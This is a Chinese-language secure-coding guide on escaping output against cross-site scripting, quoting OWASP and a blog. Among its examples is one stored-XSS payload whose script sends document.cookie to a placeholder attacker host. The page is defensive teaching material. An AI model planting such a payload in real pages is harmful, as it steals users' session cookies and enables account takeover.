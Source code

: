 # 转义输出

### 一段解释

HTML和其他web语言将内容与可执行代码混合在一起 - 单个HTML段落可能包含数据的可视化表示以及JavaScript执行指令。在呈现HTML或从API返回数据时, 我们认为纯内容实际上可能会嵌入Javascript代码, 这些代码将由浏览器解释和执行。例如, 当我们呈现攻击者插入到数据库的内容时, 就会发生这种情况 - 例如 `<div><script>//malicious code</script></div>`。这可以通过指示浏览器将任何不受信任的数据块仅视为内容, 而从不解释它来缓解 - 这种技术称为转义。许多npm库和HTML模板引擎提供了转义功能(例如: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi))。不仅应该转义HTML内容, 而且CSS和Javascript也应该被转义。


### 代码示例 - 不要将不受信任的数据放入html中 

```javascript
<script>...NEVER PUT UNTRUSTED DATA HERE...</script>   directly in a script
 
 <!--...NEVER PUT UNTRUSTED DATA HERE...-->             inside an HTML comment
 
 <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       in an attribute name
 
 <NEVER PUT UNTRUSTED DATA HERE... href="/test" />   in a tag name
 
 <style>...NEVER PUT UNTRUSTED DATA HERE...</style>   directly in CSS

```

### 代码示例 - 恶意内容可能会注入到数据库中

```javascript
<div>
  <b>A pseudo comment to the a post</b>
  <script>
    window.location='http://attacker/?cookie='+document.cookie
</script>
</div>

```

<br/><br/>

### 博客引用: "当我们不希望字符被解释"

摘自博客[benramsey.com](https://benramsey.com/articles/escape-output/)
> 数据可能会以HTML的形式离开应用程序而被发送到Web浏览器，同理，SQL发送到数据库，XML发送到RSS读取器，WML发送到无线设备等。可能性是无限的。其中每一个都有自己的一组特殊字符, 对这些字符的解释不同于接收到的其他纯文本。有时我们希望发送这些特殊字符, 以便对其进行解释 (例如, HTML标签发送到Web浏览器), 而有时 (从用户或其他来源的输入的情况下), 我们不希望这些字符被解释, 因此我们需要转义他们。

> 转义有时也称为编码。简而言之, 它是以不会执行或解释数据的方式表示数据的过程。例如, HTML将在Web浏览器中以粗体文本呈现以下文本，因为<strong>标签有特殊的含义: 
<strong>This is bold text.</strong>
但是, 假设我想在浏览器中呈现标签, 并避免对它们的解释。这样, 我需要转义在HTML中具有特殊含义的尖括号。下面说明了转义的HTML:

&lt;strong&gt;This is bold text.&lt;/strong&gt;


<br/><br/>

### 博客引用: "OWASP推荐使用以安全为中心的编码库"

摘自博客OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "编写这些编码器并不是极其困难, 但也有不少隐藏的陷阱。例如，您可能会尝试使用一些转义的快捷方式， 比如Javascript中的"\"。但是, 这些值是危险的, 可能会被嵌套在浏览器中的解析器误解。您也可能忘记转义转义字符串, 而攻击者可以用它使您的安全尝试无效。**OWASP建议使用以安全为中心的编码库, 以确保这些规则得到正确执行**。"


<br/><br/>

### 博客引用: "您必须对HTML片段使用转义语法"

摘自博客OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "假如您把不受信任的数据放在一个置于某处的<script>标签中，或一个事件处理属性比如onmouseover，或在CSS中，或在一个URL里， HTML实体编码将不起作用。因此, 即使您在任何地方都使用HTML实体编码方法, 您仍然最容易受到XSS的攻击。您必须对将不受信任的数据放入的HTML文档部分使用转义语法。"